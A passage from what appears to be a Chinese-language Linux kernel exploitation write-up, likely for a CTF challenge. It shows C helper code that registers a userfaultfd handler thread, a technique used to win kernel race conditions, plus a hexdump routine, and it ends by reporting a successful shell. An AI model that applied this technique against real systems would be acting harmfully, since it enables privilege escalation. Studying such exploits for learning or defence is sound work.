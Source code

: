 ```c
    /* Create and enable userfaultfd object */
    uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    if (uffd == -1)
        errExit("userfaultfd");

    uffdio_api.api = UFFD_API;
    uffdio_api.features = 0;
    if (ioctl((int)uffd, UFFDIO_API, &uffdio_api) == -1)
        errExit("ioctl-UFFDIO_API");

    uffdio_register.range.start = (unsigned long) addr;
    uffdio_register.range.len = len;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl((int)uffd, UFFDIO_REGISTER, &uffdio_register) == -1)
        errExit("ioctl-UFFDIO_REGISTER");

    s = pthread_create(&monitor_thread, NULL, handler, (void *) uffd);
    if (s != 0)
        errExit("pthread_create");
}

// this is a universal function to print binary data from a char* array
void print_binary(char* buf, int length){
    printf("---------------------------------------------------------------------------\n");
    printf("Address info starting in %p:\n", buf);
    int index = 0;
    char output_buffer[80];
    memset(output_buffer, '\0', 80);
    memset(output_buffer, ' ', 0x10);
    for(int i=0; i<(length % 16 == 0 ? length / 16 : length / 16 + 1); i++){
        char temp_buffer[0x10];
        memset(temp_buffer, '\0', 0x10);
        sprintf(temp_buffer, "%#5x", index);
        strcpy(output_buffer, temp_buffer);
        output_buffer[5] = ' ';
        output_buffer[6] = '|';
        output_buffer[7] = ' ';
        for(int j=0; j<16; j++){
            if(index+j >= length)
                sprintf(output_buffer+8+3*j, "   ");
            else{
                sprintf(output_buffer+8+3*j, "%02x ", ((int)buf[index+j]) & 0xFF);
                if(!isprint(buf[index+j]))
                    output_buffer[58+j] = '.';
                else
                    output_buffer[58+j] = buf[index+j];
            }
        }
        output_buffer[55] = ' ';
        output_buffer[56] = '|';
        output_buffer[57] = ' ';
        printf("%s\n", output_buffer);
        memset(output_buffer+58, '\0', 16);
        index += 16;
    }
    printf("---------------------------------------------------------------------------\n");
}
```

![](17.png)

成功getshell（有较高的失败率，需要多次尝试）
